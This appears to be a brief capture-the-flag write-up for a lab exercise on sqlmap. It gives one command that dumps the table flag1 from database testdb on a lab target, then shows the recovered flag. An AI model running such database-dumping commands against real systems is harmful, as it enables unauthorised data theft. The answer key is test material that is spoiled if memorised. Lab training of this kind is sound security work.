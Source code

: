 ## Challenge

 What's the contents of table flag1 in the testdb database? (Case #1) 

 ## Solution

 I got the flag by running the following command:

 ```sh
 python3 sqlmap.py -u "http://94.237.55.96:34129/case1.php?id=1" -T flag1 -D testdb --dump
```

this provided the flag which is `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`.

